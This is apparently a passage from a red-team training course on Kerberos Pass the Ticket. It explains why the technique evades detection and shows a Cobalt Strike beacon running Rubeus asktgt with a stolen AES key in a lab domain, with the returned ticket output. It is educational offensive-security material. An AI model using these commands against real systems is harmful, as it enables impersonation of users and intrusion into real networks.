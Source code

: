 
_Pass the Ticket_ (or PtT), is a technique [T1550.003](https://attack.mitre.org/techniques/T1550/003/) that allows an adversary to leverage stolen, forged, or requested Kerberos tickets for user impersonation.  As with PtH, this can be implemented in different ways.  Tools like Impacket implement the Kerberos protocol for remote authentication, and tools like Rubeus inject tickets into the credential cache of a given logon session.

PtT is superior to PtH in a few important aspects.  Kerberos authentication is not anomalous, nor is it restricted as with NTLM; and passing tickets into a logon session can be done with native Windows APIs, so it does not rely on patching LSASS memory.  This makes it more stealthy, and isn't prevented by PPL.

### Requesting TGTs

We already saw in the [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9) section how Kerberos tickets can be extracted from memory.  But the adversary can also legitimately request Kerberos tickets on behalf of a user if they have their NTLM hash or AES encryption keys.  Using an NTLM hash will return RC4-encrypted tickets, which is generally not advisable.

Rubeus' `asktgt` command can be used with a user's AES key.  This will return a ticket in base64 encoded format.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\rsteel'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFo[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  17/02/2025 13:18:21
  EndTime                  :  17/02/2025 23:18:21
  RenewTill                :  24/02/2025 13:18:21
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  7ImgleIR6fnHZCxJW7MJUCabAjxvIsMS7Z55VRPaEHU=
  ASREP (key)              :  05579261E29FB01F23B007A89596353E605AE307AFCD1AD3234FA12F94EA696
```
